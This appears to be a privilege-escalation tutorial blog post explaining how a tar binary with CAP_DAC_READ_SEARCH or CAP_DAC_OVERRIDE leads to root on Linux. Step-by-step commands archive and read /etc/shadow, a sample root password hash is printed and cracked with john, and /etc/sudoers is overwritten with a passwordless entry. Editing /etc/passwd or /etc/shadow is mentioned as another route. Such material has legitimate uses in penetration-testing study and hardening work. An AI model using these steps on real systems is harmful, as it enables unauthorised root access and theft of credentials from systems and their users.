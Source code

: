 ```yaml
---
layout: post
title: Abusing /tar to escalate privileges
date: 2023-05-13 00:12 +0000
comments: active
categories: [Privilege Escalation]
tags: [Privilege Escalation]
---
```


If ***/tar*** has the ***CAP_DAC_READ_SEARCH*** or ***CAP_DAC_OVERRIDE*** Linux capability set to the binary, it can be abused to escalate privileges to root. 

[Hack Tricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities){:target="_blank"}{:rel="noopener noreferrer"} does a good job at explaining how Linux capabilities works. Simply put, Linux capabilities provide a subset of the available root privileges to a process or binary. This is meant to reduce the attack surface of a system, but if it is not configured correctly it can lead to privilege escalation. 

## What is /tar?
/tar is a Linux binary installed by default on the majority of Nix based operating systems. It stands for '**Tape Archive'** and is used to create, extract and compress archives. You may be familiar with the file formats:

> `foo.tar` - Uncompressed data. Bundles together multiple files into an 'archive' or a 'tarball'. Can also be used to archive a single file.
{: .prompt-info }
> `foo.gz` - Compressed data. Can be used to compress a .tar file.
{: .prompt-info }
> `foo.tar.gz` - A compressed archive file.
{: .prompt-info }

To check if /tar is installed, you can run the following command:
```bash
which tar
```
>`/usr/bin/tar`

## Determining if /tar is vulnerable 
To check what capabilities are set to /tar, you can run the following command:
```bash
getcap /usr/bin/tar
```
If it is vulnerable, you will see one of the following:
>`/usr/bin/tar = cap_dac_read_search+ep`

>`/usr/bin/tar = cap_dac_override+ep`

## Privilege escalation process  
### CAP_DAC_READ_SEARCH Method
***CAP_DAC_READ_SEARCH*** allows binaries to *bypass file read, and directory read and execute permissions.* This means /tar can be used to access sensitive areas of an operating system as a normal user, such as the /etc/shadow file or the /root directory. To create an archive of the /etc/shadow file, you can run the following command:
```bash
tar -czf /tmp/shadow.tar.gz /etc/shadow
```

The /tar flags are important to understand:
> `-c` : Creates archive 

> `-z` : Compresses an archive with gzip

> `-f` : Designated file name

> `-x` : Extract an archive

The file can then be decompressed and printed out to view the hashed passwords:
```bash
gzip -d /tmp/shadow.tar.gz 
cat /tmp/shadow.tar
```
```text
root:$6$HbEKQFPH$5qqq6gXYJpsQpk0ZNGD1R/WClLPawMYLuL9Kn.PQE5W4grdRtoopgvgRJZs36A0a7Nwvi4L53B0yiSA.3Hq7k/:19171:0:99999:7::: 
bin:*:18353:0:99999:7:::
apache:!!:19171::::::
```
Any shadow hashes can be cracked with john, using the following command:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
If the password is not too strong, the password may be cracked out:
![John cracking the Hash](/assets/img/screenshots/john_hash_cracked.png)
_The hashed password was cracked out to 'root'_

If the password is too strong, it may not be able to be cracked out with John. Enumerating the target machine for other sensitive areas which may contain files of interest could still assist with escalating privileges. This could include archiving the /root directory to search for things such as SSH keys, or archiving other applications which may store configuration files and passwords.

### CAP_DAC_OVERRIDE Method
***CAP_DAC_OVERRIDE*** gives the same rights to a binary as ***CAP_DAC_READ_SEARCH***, except it also means you can bypass write permission checks on any file, so you can write to any file. If the /tar binary has this capability set, all you need to do is use /tar to overwrite the /etc/sudoers file.

Begin by creating a file called 'sudoers' that gives sudo rights to your low privilege user:
```bash
echo "mr10 ALL=(ALL) NOPASSWD:ALL" > sudoers
```
Archive and compress the file:
```bash
tar -czf sudoers.tar.gz sudoers
```
Decompress the file:
```bash
gzip -d sudoers.tar.gz
```
Extract the archive file into the /etc directory:
```bash
tar -xf sudoers.tar --directory /etc/
```
Elevate your privileges to root:
```bash
sudo su
```
The same method can be used to update the /etc/passwd file or the /etc/shadow file, allowing you to update root passwords or other administrator accounts.

<br>

Happy Hacking,

Mr10 💎
